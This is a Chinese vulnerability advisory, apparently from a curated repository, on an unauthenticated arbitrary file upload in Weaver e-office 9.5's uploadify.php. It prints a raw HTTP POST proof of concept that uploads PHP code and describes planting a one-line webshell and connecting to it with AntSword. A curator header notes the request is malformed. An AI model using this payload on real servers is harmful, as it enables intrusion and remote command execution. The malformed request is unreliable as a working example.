







# 泛微e-office uploadify.php任意文件上传

## 条目说明

- 对象与具体问题：泛微e-office；uploadify.php任意文件上传
- 版本、配置及部署条件：9.5；附件目录PHP可执行
- 认证与权限前提：请求无凭证，未明确认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 参数Filedata在描述出现但请求缺name/filename；multipart终止边界中途出现后又继续，格式损坏
- 与CVE2523是不同接口独立漏洞；同uploadify旧报告需比较补丁前提
- 大量操作只截图，需补响应生成路径文本与修复版本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bAADy7Ek1umIAVygBdKrcA)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**  

Weaver E-Office 是中国泛微科技（Weaver）公司的一个协同办公系统。

Weaver E-Office 9.5 版本存在代码问题漏洞，该漏洞源于文件 / inc/jquery/uploadify/uploadify.php 存在问题，对参数 Filedata 的操作会导致不受限制的上传。


  

**0x02 影响版本**  

  

Weaver E-Office 9.5 版本




  

**0x03 漏洞复现**  

  

1. 部署漏洞环境访问


2. 对漏洞进行复现

 **Poc （POST）**

```http
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 10.211.55.3:8082
User-Agent: test
Connection: close
Content-Length: 491
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85
--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85
Content-Disposition: form-data; 
Content-Type: application/octet-stream
<?php phpinfo();?>
--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85--
--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85
Content-Disposition: form-data; 
Content-Type: application/octet-stream
--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85--

```

漏洞复现

POST 请求，响应存在漏洞



        解析 php 文件 

```
http://10.211.55.3:8082/attachment/1727543347/666.php

```



3.WeaverExloit 工具测试（漏洞存在）上传一句话木马。



成功解析一句话木马  



中国蚁剑连接获取 webshell（**注意需要选择 base64 编码器**）



成功连接执行命令  




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://service.e-office.cn/download

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
